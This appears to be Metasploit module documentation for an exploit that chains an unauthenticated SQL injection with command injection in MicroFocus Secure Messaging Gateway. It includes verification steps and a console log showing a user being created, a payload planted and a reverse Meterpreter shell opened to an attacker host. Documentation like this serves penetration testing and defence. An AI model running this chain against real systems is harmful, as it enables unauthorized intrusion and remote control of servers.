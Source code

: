 ## Vulnerable Application
This module exploits a SQL injection and command injection vulnerability in MicroFocus Secure Messaging Gateway. An unauthenticated user can execute a terminal command under the context of the web user.

One of the user supplied parameters of API endpoint is used by the application without input validation and/or parameter binding, which leads to SQL injection vulnerability. Successfully exploiting this vulnerability gives a ability to add new user onto system. manage_domains_dkim_keygen_request.php endpoint is responsible for executing an operation system command. It's not possible to access this endpoint without having a valid session.

Combining these vulnerabilities gives the opportunity execute operation system commands under the context of the web user.
        
**Vulnerable Application Installation Steps**

Complate following trial submission form. You will be able to download the product as a OVA or ISO file.

[https://www.microfocus.com/products/secure-gateway/trial/](https://www.microfocus.com/products/secure-gateway/trial/)

## Verification Steps

A successful check of the exploit will look like this:

- [ ] Start `msfconsole`
- [ ] `use exploit/linux/http/microfocus_secure_messaging_gateway `
- [ ] Set `RHOST`
- [ ] Set `LHOST`
- [ ] Run `check`
- [ ] **Verify** that you are seeing `The target is vulnerable`
- [ ] Run `exploit`
- [ ] **Verify** that you are seeing `Creating an user with appropriate privileges` in console.
- [ ] **Verify** that you are seeing `User successfully created. Username : rmcynlbredxqh` in console.
- [ ] **Verify** that you are seeing `Authenticating with created user` in console.
- [ ] **Verify** that you are seeing `Successfully authenticated` in console.
- [ ] **Verify** that you are seeing `Creating a domain with a malformed DKIM data` in console.
- [ ] **Verify** that you are seeing `Payload is successfully implanted` in console.
- [ ] **Verify** that you are seeing `Triggerring an implanted payload` in console.
- [ ] **Verify** that you are getting meterpreter session.

## Scenarios

```
msf5 > use exploit/linux/http/microfocus_secure_messaging_gateway 
msf5 exploit(linux/http/microfocus_secure_messaging_gateway) > set RHOSTS 12.0.0.25
RHOSTS => 12.0.0.25
msf5 exploit(linux/http/microfocus_secure_messaging_gateway) > set LHOST 12.0.0.1
LHOST => 12.0.0.1
msf5 exploit(linux/http/microfocus_secure_messaging_gateway) > run

[*] Started reverse TCP handler on 12.0.0.1:4444 
[*] Creating an user with appropriate privileges
[+] User successfully created. Username : rmcynlbredxqh
[*] Authenticating with created user
[+] Successfully authenticated
[*] Creating a domain record with a malformed DKIM data
[+] Payload is successfully implanted
[*] Triggerring an implanted payload
[*] Sending stage (37775 bytes) to 12.0.0.25
[*] Meterpreter session 10 opened (12.0.0.1:4444 -> 12.0.0.25:44332) at 2018-06-25 20:26:54 +0100
[*] Cleaning up...

meterpreter > pwd
/opt/gwava/gwavaman/http/admin/contents/ou
meterpreter >
```